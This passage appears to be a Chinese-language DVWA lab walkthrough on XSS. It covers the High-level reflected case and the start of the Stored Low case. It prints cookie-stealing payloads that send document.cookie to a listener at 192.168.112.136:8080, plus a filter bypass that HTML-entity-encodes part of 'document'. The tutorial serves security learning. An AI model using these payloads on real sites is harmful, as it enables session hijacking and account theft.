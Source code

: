 测试一下，是可以访问的：

![image-20211106234641570](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031958523.png)

构造js语句，如果没有过滤`<script>`的话这样就可以了：

```html
<script>document.location="http://192.168.112.136:8080/cookie.php?cookie="+document.cookie</script>
```

但是由于High中用正则表达式过滤了`<script>`，尝试用`<img>`标签：

```html
<img src=1 onerror='(new Image()).src="http://192.168.112.136:8080/cookie.php?cookie="+document.cookie'>
```

被过滤：

![image-20211108210724260](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031958529.png)

把最后document中的t转写成`&#116`（因为HTML标签中支持十进制）：

```html
<img src=1 onerror='(new Image()).src="http://127.0.0.1:8080/cookie.php?cookie="+documen&#116.cookie'>
```

运行成功：

![image-20211108211148560](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031958213.png)

![image-20211108211356784](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031958731.png)



------

### 二、XSS（Stored）

#### （1）Low

先看源码：

![image-20211108191902529](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031958969.png)

其中调用了3个函数：

`trim()`函数移除字符串两侧的空白字符或其他预定义字符，比如`\0`、`\t`、`\n`、`\x0B`、`\r`和空格。

`mysqli_real_escape_string()`函数对字符串中的特殊符号（`\x00`，`\n`，`\r`，`\`，`'`，`"`，`\x1a`）进行转义。

`stripslashes()`函数删除字符串中的反斜杠。

除此之外并没有对输入的name和message进行xss过滤，并且数据存储在数据库中。

源码本来的用途是用户输入name和message，网页会把输入的信息放入数据库中并在网页上回显。

直接在message注入：`<script>alert(document.cookie)</script>`
